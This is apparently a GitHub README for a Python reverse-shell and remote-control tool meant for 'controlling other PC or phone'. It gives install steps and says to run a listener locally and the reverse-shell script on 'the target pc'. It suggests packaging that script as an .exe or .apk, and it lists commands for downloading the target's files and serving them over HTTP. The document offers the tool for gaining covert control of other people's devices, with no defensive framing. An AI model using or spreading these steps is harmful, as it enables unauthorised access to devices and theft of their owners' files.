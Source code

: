 # netcut-and-reverce_shell
Controlling othe pc or phone with python
__________________________________
[#] install:<br>
       ~$git clone https://github.com/omer-devil/netcut-and-reverce_shell.git <br>
       and move to the project directory:<br>
             ~$cd netcut-and-reverce_shellh<br>
       now install the requirements.<br>
             ~$pip3 install -r requirements.txt<br>
       
___________________________________
[#] how to use:<br>
       first run Net-Cat on your computer:<br>
               ~$python3 netcat.py<br>
       then run reverce_shell on the target pc<br>
               ~$python3 reverce_shell.py<br>
       and then you get access to the target pc or phone<br>
       note:-you can conver reverce_shell.py into .exe file or .apk file<br>
            to conver it to .exe use pyinstaller and<br>
            for .apk use buildozer<br>
______________________________________
[#] all the command availabl in netcut-and-reverce_shellh, with use and example:<br>
    Commands.                 Use.                                  Example<br>
    l-host.                   local-host <command>                  local-host ls<br>
    download.                 download <file name>                  download music.mp4<br>
    server.                   server <IP:PORT>                      server 127.0.0.1:468<br>
    target-ip.                target-ip                             it shows the target ip<br>
    output_save.              output_save <True/False>              output_seve True or output_save False<br>
    <br>
    help.                     shows this help message<br>

l-host <commands>     : used to execute command on the local-host
         example -->  l-host pwd
                      l-host ls
download <file_name>  : used to download file,mid,app and other from the target
         example --> download video.mp4
                     download music.mp3

server <host:port>    : used to run http server on the target to access target file throughout browser
         example --> server 127.0.0.1:55555
         note: it only recommend on the same network

target-ip <optional_command>: used to return the target ip
         example --> target-ip
                     target-ip help : help is the only 
                              optional command available
output_save <True|False>    : used to save the received output 
                              command to default file name or 
                              you can changed the file name

         example --> output_seve True  : start saving
                     output_seve False : stop saving

